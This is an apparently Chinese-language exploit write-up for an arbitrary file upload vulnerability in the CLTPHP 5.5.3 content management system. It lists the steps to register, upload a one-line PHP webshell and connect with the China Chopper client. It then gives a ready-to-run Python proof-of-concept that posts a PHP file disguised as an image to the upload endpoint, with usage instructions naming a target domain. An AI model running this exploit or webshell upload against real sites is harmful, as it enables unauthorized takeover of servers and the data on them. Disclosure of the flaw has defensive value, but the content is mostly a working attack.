




CLTPHP 5.5.3 任意文件上传漏洞
=============================

一、漏洞简介
------------

CLTPHP采用ThinkPHP开发，后台采用Layui框架的内容管理系统。

二、漏洞影响
------------

CLTPHP 5.5.3

三、复现过程
------------

找到一个注册界面

随便注册一个用户，登陆后在设置里找到一个上传点

上传我们的一句话木马

查看返回包，上传成功

访问失败，猜测返回路径可能不是绝对路径

通过报错信息查找关键词，发现存在public目录 那再把public加上再试试\~
success！

菜刀连接

### poc

> payload.py

    #!/usr/bin/python
    #-*- coding: UTF-8 -*-
    #Author：Bypass
    #Date：2018.03.01
    import requests
    import sys

    def CLPHP_upload(url):
            header = { 'User-Agent' : 'Mozilla/4.0 (compatible; MSIE 5.5; Windows NT)' ,
                                    'X-Requested-With': 'XMLHttpRequest',} 
            geturl = url+"/user/upFiles/upload"
            files ={'file':('1.php',open('1.php','rb'),'image/jpeg')}
            res = requests.post(geturl, files=files,headers=header)
            print res.text

    if __name__ == "__main__":
            if len(sys.argv) == 2:
                    url=sys.argv[1]
                    CLPHP_upload(url)
                    sys.exit(0)
            else:
                    print ("usage: %s xxx.com " % sys.argv[0])
                    sys.exit(-1)

**使用方法**：把payload.py和一句话.php放到同一文件夹下，

cmd执行 `python payload.py www.0-sec.org`

参考链接
--------

> https://www.cnblogs.com/unixcs/p/11244463.html
